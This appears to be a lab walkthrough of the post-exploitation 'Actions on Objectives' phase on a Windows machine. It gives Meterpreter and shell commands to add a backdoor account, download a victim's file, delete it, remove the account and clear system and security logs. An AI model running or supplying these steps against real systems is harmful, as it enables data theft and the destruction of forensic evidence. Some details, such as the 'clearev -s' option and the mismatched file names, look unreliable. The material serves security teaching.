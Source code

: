 # Actions on Objectives Phase

## Objective:
Achieve the attacker's end goals, such as data theft, disruption, or destruction.

### Step 1: Add a New User
In the **Actions on Objectives** phase, the attacker takes actions to gain further control, exfiltrate data, and disrupt or destroy the system. The first step is often to add a new user to maintain access even if the initial exploit is closed or the system is rebooted.

Using **Meterpreter**, the attacker can add a new user named `eviluser` with the password `password123`.

1. Add a New User:

```
net user eviluser password123 /add
```
The attacker successfully adds the new user, ensuring they can regain access if necessary.



### Step 2: Exfiltrate Data
Next, the attacker moves to exfiltrate sensitive data. This could involve copying files, extracting credentials, or stealing proprietary information. In this scenario, the attacker will navigate to a folder named **secret folder** and download a file named **important doc.txt**.

1. Navigate to the Folder and Download File:

```
cd C:\Users\Bob\Documents\secret folder
download important_doc.txt
```
The attacker successfully downloads the file containing sensitive data from the compromised machine to their own system.



### Step 3: Delete the Exfiltrated Data
After the data has been exfiltrated, the attacker deletes the file from the compromised system to cover their tracks and prevent detection.

1. Delete the File:

```
rm important_doc.txt
```
The attacker successfully removes the exfiltrated file from the target machine.



### Step 4: Remove the Created User
After completing their objectives, the attacker removes any users they created during the attack to prevent detection. In this case, the attacker removes the `eviluser` they added earlier.

1. Remove the User:

```
net user eviluser /delete
```
The attacker successfully removes the created user, eliminating any trace of additional user accounts on the system.



### Step 5: Clear System and Security Logs
Finally, to avoid detection and remove evidence of the attack, the attacker clears the system and security logs on the compromised machine. This action erases any trace of the attacker's activities, making it difficult for security teams to investigate the attack.

1. Clear System Logs:

```
clearev
```
The attacker successfully clears the system event logs, removing traces of malicious activity.

2. Clear Security Logs:

```
clearev -s
```
The attacker successfully clears the security event logs, ensuring there are no recorded traces of their actions.



# Conclusion: The Attack Phase is Complete
With the **Actions on Objectives** phase complete, the attacker has achieved their end goals, including:

- **Created a new user** for persistent access.
- **Exfiltrated sensitive data** from the target machine.
- **Deleted the exfiltrated data** to cover their tracks.
- **Removed the user account** they created to leave no signs of unauthorized access.
- **Cleared system and security** logs to erase any traces of the attack.

With these actions, the attacker has successfully carried out their objectives and left little evidence of their presence, making it harder for investigators to trace back to the initial compromise.
